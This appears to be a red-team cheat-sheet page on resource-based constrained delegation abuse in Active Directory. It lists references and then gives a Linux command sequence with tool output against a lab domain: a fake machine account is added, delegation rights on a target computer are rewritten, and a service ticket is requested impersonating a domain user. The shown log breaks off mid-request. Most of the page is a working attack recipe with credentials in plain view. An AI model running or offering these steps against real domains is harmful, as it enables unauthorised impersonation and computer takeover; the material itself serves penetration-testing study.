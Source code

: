 #### Refs

* [From Kekeo to Rubeus – harmj0y](https://www.harmj0y.net/blog/redteaming/from-kekeo-to-rubeus/)
* [S4U2Pwnage – harmj0y](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
* [Another Word on Delegation – harmj0y](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [Resource-based Constrained Delegation ACL-based Computer Object Takeover](https://gist.github.com/HarmJ0y/a1ae1cf09e5ac89ee15fb3da25dcb10a)
* [A Case Study in Wagging the Dog: Computer Takeover – harmj0y](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
* [Resource-based constrained delegation computer DACL takeover demo](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory / Shenanigans Labs](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [BloodHound 2.1's New Computer Takeover Attack - YouTube](https://www.youtube.com/watch?v=RUbADHcBLKg)
* [Kerberos Resource-based Constrained Delegation: Computer Object Take Over - Red Teaming Experiments](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [Resource-Based Constrained Delegation Abuse / Abusing RBCD & MachineAccountQuota](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)
* [Разбираем атаки на Kerberos с помощью Rubeus. Часть 1 / Блог компании T.Hunter / Хабр](https://habr.com/ru/company/tomhunter/blog/507140/)
* [Разбираем атаки на Kerberos с помощью Rubeus. Часть 2 / Блог компании T.Hunter / Хабр](https://habr.com/ru/company/tomhunter/blog/509290/)

### From Outside (Linux)

**Tools:**

1. [impacket/addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) to create fake machine.
2. [rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py) to modify `msDS-AllowedToActOnBehalfOfOtherIdentity`.
3. [impacket/getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) to abuse S4U and get TGS.

```
root@kali:$ proxychains4 -q addcomputer.py -computer-name 'newfakemachine123$' -computer-pass 'P@ssw0rd!' -dc-ip 192.168.3.203 'htb.local/test-svc:T3st-S3v!ce-F0r-Pr0d' -debug
[+] Impacket Library Installation Path: /usr/local/lib/python2.7/dist-packages/impacket
[*] Opening domain HTB...
[*] Successfully added machine account newfakemachine123$ with password P@ssw0rd!.

root@kali:$ proxychains4 -q ./rbcd.py -f newfakemachine123 -t WEB -dc-ip 192.168.3.203 'HTB\test-svc:T3st-S3v!ce-F0r-Pr0d'
[*] Starting Resource Based Constrained Delegation Attack against WEB$
[*] Initializing LDAP connection to 192.168.3.203
[*] Using HTB\test-svc account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `newfakemachine123` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `WEB`
[*] Delegation rights modified succesfully!
[*] newfakemachine123$ can now impersonate users on WEB$ via S4U2Proxy

root@kali:$ proxychains4 -q getST.py -spn http/WEB.htb.local -impersonate lee -dc-ip 192.168.3.203 'htb.local/newfakemachine123$:P@ssw0rd!' -debug
[+] Impacket Library Installation Path: /usr/local/lib/python2.7/dist-packages/impacket
[+] Using Kerberos Cache: /root/tools/rbcd-attack/lee.ccache
[+] SPN KRBTGT/HTB.LOCAL@HTB.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] No valid credentials found in cache.
[*] Getting TGT for user
```